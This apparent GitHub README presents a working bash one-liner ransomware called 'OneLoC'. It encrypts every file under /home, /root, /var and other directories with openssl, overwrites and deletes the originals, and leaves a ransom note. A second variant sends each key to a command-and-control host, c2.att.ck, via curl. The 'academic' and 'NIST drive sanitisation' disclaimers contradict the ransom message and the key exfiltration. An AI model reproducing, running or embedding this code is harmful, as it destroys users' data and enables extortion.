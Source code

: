 # Ransomware-Oner-Line - OneLoC 

This is a code for ransomware in bash script oner line. !!! PURELY FOR ACADEMICAL PURPOSES !!!  

I am not responsible in any way for the misuse of this script, this is code normally installed in any linux distribution  
that has been bundled in a way to encrypt all data using AES-CBC-256 encryption with openssl.  

This script was developed for the purpose of sanitizing physical storage drives for disposal to NIST-800-88 standard  

With great powers, great responsibilities...  

### OneLoC Code
#### One LoC: One Line Of Code

```
Ransom@OneLoC:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do rdc=$(mktemp -u|rev|cut -d"." -f1) && CODE=$rdc$RANDOM && openssl enc -aes-256-cbc -a -salt -in $i -out $i.LoC -k $(echo -n $CODE | base64 | sha256sum) && echo "OneLoC Anti-Forensic..." > $i && rm -rf $i;echo 'All your files has been encrypted by: OneLoC !' > $HOME/README.TXT;done >/dev/null 2>&1&
```

#### With Exfiltration:  
```
Ransom@OneLoC:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do rdc=$(mktemp -u|rev|cut -d"." -f1) && CODE=$rdc$RANDOM && curl -s -X GET https://c2.att.ck/exfilt.php?key=$CODE -k && openssl enc -aes-256-cbc -a -salt -in $i -out $i.LoC -k $(echo -n $CODE | base64 | sha256sum) && echo "OneLoC Anti-Forensic..." > $i && rm -rf $i;echo 'All your files has been encrypted by: OneLoC !' > $HOME/README.TXT;done >/dev/null 2>&1&
```  


